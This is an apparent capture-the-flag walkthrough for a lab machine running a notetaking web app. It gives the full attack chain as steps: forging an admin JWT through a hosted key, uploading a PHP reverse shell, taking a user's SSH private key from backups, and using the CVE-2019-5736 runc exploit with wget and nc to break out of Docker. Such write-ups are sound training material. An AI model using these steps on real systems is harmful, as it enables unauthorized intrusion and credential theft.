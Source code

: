 # Foothold

1. Run nmap to see three ports are open: 22,80,10100.
2. 10100 is run rx-api, not currently useful.
3. We can visit the webpage and it consists of a notetaking app. 
4. We can create an user from the register page. Enumerating the webpage, we can see that there is an /admin directory which is not accessible to a non-admin user.
5. We can see for authentication we are using JWT toke. Inspect the JWT token and we can see that the JWT token is a RS256 alg, and kid hosted on a local host. We can bypass this by generating our own RSA public private key and signing them with it. Host the private key on your local machine and change the address for the private key to your local machine in the JWT token. Also don't forget to change the admin_cap to true.
6. Generate the JWT token from jwt.io, change your document.cookie to the new cookie and visit /admin
7. We can see there is a new panel called as admin panel. We can view notes from all users or see that there is a provision to upload a file. Viewing the notes we can see two main vulns, php code execution from file upload (PHP rev shell can be uploaded and executed) and also backups are now active, which means we can find something in /var/backups.
8. Get rev shell from file upload vulnerability and get shell from listener.

## Priv Esc

9. After we get the shell, we can just go to /var/backups and see the whole backup - home.tar.gz. Enumerate and see the name of the user is noah. We can move it to /tmp and extract using tar xvf and cat /home/.ssh/id_rsa. This is the RSA priv key for noah.
10. ssh noah@10.10.10.230 -i id_rsa. 
11. We can see that noah can run sudo docker exec -it webapp-dev01 <cmd> without password.
12. Looking for similar vulnerabilites, we can come across three runc vulns, the two from exploit DB can break the docker image. Container breakout(2) requires runc library on the docker image and thus wouldn't work as runc isn't installed in the docker image and Container breakout(1) gave a shell which wasn't responsive.
13. https://github.com/Frichetten/CVE-2019-5736-PoC is the proper exploit.
14. We need to change the payload in the main.go as per our wish, either cat out /root/root.txt > /tmp/root.txt and read the flag or use nc to connect. go build main.go(to compile the new binary). Now host this file for the docker file to retrieve. (python3 -m http.server)
15. Open two ssh sessions
16. First SSH session:
	a. sudo docker exec -it webapp-dev01 /bin/bash
	b. wget http:<IP>:<PORT>/main
	c. chmod +x main.
	d. ./main
17. Second SSH session:
	a. Before executing ./main, make sure to keep the command sudo docker exec -it webapp-dev01 /bin/sh ready.
	b. As soon as the "Overwritten /bin/sh" comes on the first session. Run the command in the second session.
	c. The flag would be copied to /tmp/root.txt. Cat it out
